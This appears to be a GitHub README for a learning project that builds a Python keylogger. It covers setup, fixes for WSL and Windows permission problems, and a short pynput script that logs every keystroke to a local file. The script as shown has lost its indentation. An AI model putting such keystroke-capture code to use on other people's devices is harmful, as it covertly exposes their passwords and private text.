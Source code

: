 # Keylogger_Project

Project Description

This project is a Python-based keylogger designed to capture keystrokes and store them in a local text file. It was created for learning and exploration purposes, and it demonstrates the use of libraries and logging functionality in Python.

**Disclaimer**

This project is intended strictly for educational and testing purposes. Unauthorized or malicious use of this script for tracking keystrokes or other unauthorized activities may violate privacy laws and is strictly prohibited. By using this project, you agree to adhere to all applicable laws and use this code responsibly. The author does not endorse or condone the use of this script for any unlawful or unauthorized purposes.

Learning Objectives

The goals for this project included:
   
    Building a functional keylogger script in Python.
    Understanding and resolving issues with virtual environments and package installations.
    Gaining familiarity with troubleshooting techniques in different development environments (WSL and native Windows).

Prerequisites:

    Python 3.10 or later
    pynput package
    Virtual environment setup (optional)

Setup and Installation
  1. Clone the repository:

    git clone https://github.com/yourusername/Keylogger_Project.git

  2. Create a virtual environment:

    python3 -m venv keylogger_env

  3. Activate the environment:

  For Windows:

      keylogger_env\Scripts\activate

  For WSL/Linux:

      source keylogger_env/bin/activate

  4. Install dependencies:

    pip install pynput

Usage

  1. Run the script:

    python3 keylogger_script.py

  2. Log files will be generated in the same directory as <keylogger_script.py>.


Key Challenges and Solutions

During this project, several challenges were encountered and resolved:

    1. Issue: ModuleNotFoundError for pynput
        -Solution: Verified virtual environment installation and activated it correctly. Found that sudo bypassed the virtual environment, so permissions were managed without sudo.

    2. Environment-Specific Issues:
        -Problem: Script did not initially work on WSL.
        -Solution: Troubleshot environment by switching to a native Windows environment. This helped verify if WSL-specific permissions were the source of the issue.

    3. Permissions:
        -Solution: Adjusted file permissions in Ubuntu to ensure the script could write to the log file, especially when running without elevated permissions.

Script Overview

Each part of the code in keylogger_script.py is briefly explained below to help other users understand its function:

python

    from pynput import keyboard
    import logging
    from datetime import datetime

    # Setup logging configuration
    logging.basicConfig(filename="key_log.txt", level=logging.DEBUG, format="%(asctime)s - %(message)s")

    # Function to log keystrokes
    def on_press(key):
    logging.info(f"{key} pressed")

    # Start listener
    with keyboard.Listener(on_press=on_press) as listener:
    listener.join()

  - pynput: Used to capture keystrokes.
  - logging: Logs each keystroke into key_log.txt with date and timestamp.
  - keyboard.Listener: Initiates listening and logging until manually stopped.

Future Improvements

  - Error Handling: Add error handling for different environments.
  - Dynamic File Paths: Allow for customizable log file paths.
